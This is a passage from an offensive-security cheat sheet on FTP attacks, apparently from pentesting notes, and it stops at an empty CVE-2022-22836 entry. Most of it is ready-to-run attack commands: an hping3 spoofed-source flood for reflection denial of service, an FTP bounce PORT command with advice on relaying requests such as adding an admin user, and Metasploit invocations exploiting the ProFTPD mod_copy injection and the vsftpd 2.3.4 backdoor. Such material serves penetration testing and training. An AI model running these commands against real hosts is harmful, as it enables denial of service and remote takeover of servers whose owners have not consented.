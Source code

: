 #### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p <target_port> --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

#### FTP Bounce Attack

*   **Tool:** \[\[Custom Scripts]]

    ```bash
    telnet <target_ip> 21 PORT <attack_ip>,<attack_port>,<target_ip>,<target_port>
    ```
* **Description:** Exploits the FTP server’s ability to connect to other servers, using it to flood another target with traffic. Some FTP servers allow the command PORT. This command can be used to indicate to the server that you wants to connect to other FTP server at some port. Then, you can use this to scan which ports of a host are open through a FTP server. You could also abuse this behavior to make a FTP server interact with other protocols. You could upload a file containing an HTTP request and make the vulnerable FTP server send it to an arbitrary HTTP server (maybe to add a new admin user?) or even upload a FTP request and make the vulnerable FTP server download a file for a different FTP server.

### Exploits

#### ProFTPD Mod\_copy Command Injection

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/unix/ftp/proftpd_modcopy_exec
    set RHOST <target_ip>
    run
    ```
* **Description:** Exploits a vulnerability in ProFTPD’s mod\_copy module, allowing arbitrary command execution.

#### vsftpd 2.3.4 Backdoor Command Execution

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/unix/ftp/vsftpd_234_backdoor
    set RHOST <target_ip>
    run
    ```
* **Description:** Exploits a backdoor in vsftpd 2.3.4, allowing for remote command execution.

#### CVE-2022-22836

*   **Tool:** Manual, \[\[Custom Scripts]]
